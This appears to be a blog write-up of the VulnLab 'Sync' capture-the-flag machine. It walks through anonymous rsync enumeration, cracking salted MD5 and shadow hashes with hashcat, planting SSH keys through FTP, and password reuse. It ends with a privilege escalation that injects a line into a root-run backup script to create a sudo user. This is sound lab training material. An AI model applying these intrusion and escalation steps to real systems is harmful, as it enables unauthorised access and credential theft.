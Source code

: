 ```yaml
---
title: "VulnLab - Sync Writeup"
date: 2023-11-29
tags: ["Vulnlab", "Writeup"]
---
```

![Sync Thumbnail](featured.png)

This is a write-up of the Sync machine on [VulnLab](https://www.vulnlab.com/) by xct. This box involves anonymous rsync, cracking salted md5 hashes, and manipulating a backup script.

## User

Hint:

```text
Explore how to crack salted md5 hashes - both john & hashcat have a way of doing it.
Check for file system permission misconfigurations
```

I started by performing an nmap scan of the machine, and got the following results:

```text
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 bd:de:eb:f3:35:c0:55:3d:ee:2c:6e:31:69:81:f7:47 (ECDSA)
|_  256 16:1d:80:4b:f1:19:2c:09:5c:fd:ec:2d:76:10:ac:e8 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Login
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

FTP didn't have anonymous login enabled, I didn't have creds or see anything super interesting on the site, so I decided to investigate rsync.

### Rsync

Rsync is a file transfer utility, and we're able to anonymously connect and view the shares with `rsync -av --list-only rsync://<IP>`, I downloaded the open httpd share with `rsync -av rsync://<IP>:873/httpd <output directory>` and found the notable files index.php and site.db:

![Rsync Dump](rsync-dump.png)

Index.php reveals how the authentication process for the site works:

```php
$secure = "6c4972f3717a5e881e282ad3105de01e";
if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $hash = md5("$secure|$username|$password");
    $db = new SQLite3('../db/site.db');
    $result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");
    $row = $result->fetchArray(SQLITE3_ASSOC);
    if ($row) {
        $_SESSION['username'] = $row['username'];
        header('Location: dashboard.php');
        exit();
    } else {
        $error_message = 'Invalid username or password.';
    }
}
```

We can see that the password hash consists of the $secure salt value, and username/password fetched from site.db. I was able to pull the hashes for users admin and triss from the sqlite db file, and put them into the format of `hash:6c4972f3717a5e881e282ad3105de01e|user|` to feed into hashcat with `hashcat -m 20 -a 0 <hash file> <wordlist>`. I was successfully able to crack triss' password, but not admin.

### Triss

With our new credentials, I was able to log into the site as Triss, but didn't get anywhere with it:

![Triss' Dashboard](triss-dashboard.png)

They also didn't work on SSH which requires pubkey authentication, but I was able to login with them on FTP and access Triss' home folder. With write access to the home folder, I added my public key as an authorized key and logged in via SSH. I wasn't able to find anything of note, and linpeas didn't have a lot of useful output, so I started trying Triss' password on the other users on the system. The user Jennifer had the same password, and I was able to add my public key, and get the user flag:

![Jennifer's Home Dir](jennifer-home.png)

## Root

Hint: `Check how the backups are done`

### Backup Contents

I first investigated the backups directory which had multiple zip archives containing backups of the website, /etc/passwd, and /etc/shadow:

![Backups](backups.png)

![Backup Contents](backups.png)

I dumped the contents of shadow, and cracked the hash of the sa user which was encoded with yescrypt:

![Shadow](shadow.png)

### Backup Script

Now as sa, I investigated how the backups were actually performed. I looked for anything that may be related with `find / | grep backup`:

![Searching for the Backup Script](backup-sh-found.png)

![Backup Script](backup-script.png)

I found backup.sh which we can see is responsible for creating the backups. This script is likely ran as root because it's interacting with /etc/shadow, and we have write permissions over the script. I added the line `useradd -m -s /bin/bash -G sudo lfgberg && echo 'lfgberg:password1' | chpasswd` to create a new superuser named lfgberg the next time the script is run, which I logged in as to grab the root flag:

![Root Flag](content/posts/vulnlab/vl-sync/root-flag.png)
